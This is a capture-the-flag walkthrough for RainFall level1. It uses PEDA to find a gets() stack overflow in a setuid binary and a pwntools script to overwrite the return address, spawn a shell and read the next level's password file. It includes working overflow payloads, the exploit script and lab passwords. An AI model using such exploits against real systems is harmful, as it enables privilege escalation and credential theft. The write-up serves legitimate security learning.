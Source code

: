 # Level 1

## Introduction

This is an alternative solution that serves as an introtuction to `PEDA` and `pwntools`.
- `PEDA` is an extension to GDB which colorizes and add information
- `pwntools` is a CTF framework and exploit development library

We will first interact with the binary using `PEDA` and then discover how to use `pwntools`

## Setup
We find a binary file at the root of the user **`level1`** named *`./level1`*.

To analyze the binary file we copy it to the host with `scp` *(OpenSSH secure file copy)*.
```bash
scp -r -P 4243 level1@localhost:/home/user/level1/level1 .
```

### PEDA

In order to use `PEDA` can just run it inside docker.
```bash
./peda.sh level1
# or
docker run -it -v "$abs_path":/mnt/binary gdb-peda-image bash -c "gdb -q /mnt/binary"
```

## Binary Analysis

### Main function

On the `PEDA` prompt we need to run a couple of commands to analyze the binary.
In order to develop an exploit, we want to understand the behaviour of the program.

We start by looking at the `main` function.

![disassembled main](../docs/level1.peda.main.png)

We notice 2 interesting things:
- the program uses `gets()` function, which is known to be prone to buffer overflow
- the program seems to do nothing else

In this context, we know we can use a buffer overflow. By writing past the size of the buffer in which `gets()` writes, we will overwrite the memory used to store the address of the next instruction after the return of the function `main`.

*Smashing The Stack For Fun And Profit* contains wonderful explanations on how the stack works.

Before trying to copy *Smashing The Stack For Fun And Profit*, we run `info functions` in gdb.

### Run function

![info functions](../docs/level1.peda.info_functions.png)

From all of the symbols listed, `main` and `run` are the only functions writen in the code. All other functions are either imported from a library or functions added by the compiler like `frame_dummy` (feel free to read more about it, this is out of the scope of this walkthrough).

We will run a few commands to analyse the `run()` function
```bash
pdisas run
x/1s 0x8048570
x/1s 0x8048584
```

![run function](../docs/level1.peda.run.png)

Let me explain.
First, we disassemble `run` with `pdisas` (colored version of `disas` => alias to `disassemble`).
We notice a call to the function `fwrite()`.

When looking at the `man` for the function, we know its first argument is the address of the string to write, and thus the element in `eax` when the function is called.

We see that `eax` contains an addresse, so we will use gdb `x` command to examine the data at this address (0x8048570). We specify that it is one string with `/1s` and we get "Good... Wait what?\n", not very useful.

The same logic for `system` leads us to read the address in `esp`, where we get `"/bin/sh"`.

We know that `run()` prints on stdout and then calls a shell.

### Source

The equivalent program in C would be:
```C
#include <stdio.h>
#include <stdlib.h>

void run() {
    FILE *stdout_ptr = stdout;

    // Print the message "Good... Wait what?\n" to the standard output
    fwrite("Good... Wait what?\n", sizeof(char), 17, stdout_ptr);

    // Execute the "/bin/sh" shell command
    system("/bin/sh");
}

int main(int argc, const char **argv, const char **envp)
{
    char buffer[??]; // Buffer to hold user input
    
    gets(buffer); // Reading input from the user

    return 0;
}
```

### Permissions
As we can see in the permissions of the executable file, the binary `./level1` is executed with the privileges of the user **level2**, the owner of the file.
```bash
level1@RainFall:~$ ls -l level1 
-rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
```

## Exploit

We now know:
- the binary has user **level2** privileges
- the function `run()` calls `system("/bin/sh")`
- the function `main()` is vulnerable to buffer overflow

Our objective is to insert as a return address for the `main()` function, the address of the first instruction in `run()`.

### First Solution

The string version of the address `0x08048444` has to be in little endian.
It gives `"\x44\x84\x04\x08"`.

We will try to overwrite the `ret` which is after the `frame pointer`, both placed after the buffer in the memory (wonderful explanations in *Smashing The Stack For Fun And Profit*).

A naive implementation could be:
```bash
$ ( printf "\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\n" ; cat ) | ./level1
Good... Wait what?
```

We are lucky, it worked. One of the addresses ended up as the return address of the `main()` function.
We can print the flag.
```bash
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

<details>
<summary>Why weird `cat` in the command-line?</summary>
<br>
Because we ran the program with the input coming from a pipeline, the input is redirected to the `stdin` of the program. So, when the program calls for `system("/bin/sh")`, it immediately executes the shell without waiting for further input, and all it finds on the `stdin` is `EOF` so it closes the shell.
To work around this issue we can keep the `stdin` open with the call to `cat`.
</details>

### Best Solution

Back to `PEDA`, we will use 2 commands:
- `pattern create`
- `pattern offset`

Before, we filled the buffer, and more, with an arbitrary number of our target address.
But say we want the offset between the begining of our buffer and the return address in the memory.
What we can do is:
- generate a long string with no similar subsequence of 4 characters `pattern create` [De Bruijn sequence](https://en.wikipedia.org/wiki/De_Bruijn_sequence)
- put it in the buffer
- look at the address called at program failure (it will be a sequence of 4 characters of the string)
- look at where in our string the subsequence appears
- count the number of characters before: `pattern offset`

![peda pattern create](../docs/level1.peda.pattern.png)

![peda pattern offset](../docs/level1.peda.offset.png)

With the following pattern, `AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL` the programs tries to execute the instructions at `0x41344141` or `"A4AA"`, which we find in the string only once.

We now know that the return address is 76 char after the start of the buffer.

We can use `pwntools`, and write an `exploit.py` script.

```python
from pwn import *

HOST = 'localhost'
PORT = 4243
# current level
USER = 'level1'
# pass for current level (in /home/user/{USER}/.pass)
PASS = '1fe8a524fa4bec01ca4ea2a869af2a02260d4a7d5fe7e7c24d8617e6dca12d3a'

def main():
    # creates a new ssh connection https://docs.pwntools.com/en/latest/tubes/ssh.html
    connection = ssh(host=HOST, port=PORT, user=USER, password=PASS)

    # requires python on remote server
    # binds to the binary /home/user/level1/level1
    process = connection.process(f'/home/user/{USER}/{USER}')

    # We know the offset is 76 from gdb exploration
    # We got 0x08048444 as the address of the first instruction of 'run'
    # The payload has to be 76 random char followed by the little endian form of the address
    payload = b'.'*76 + b'\x44\x84\x04\x08'

    process.sendline(payload)

    # Print the vm's stdout until first shell input
    print(process.recvuntil(b'$ '))

    process.sendline(b'cat /home/user/level2/.pass')
    # Print the flag
    print(process.recv())

main()
```

We will get the flag with
```bash
./pwntools.sh exploit.py
```
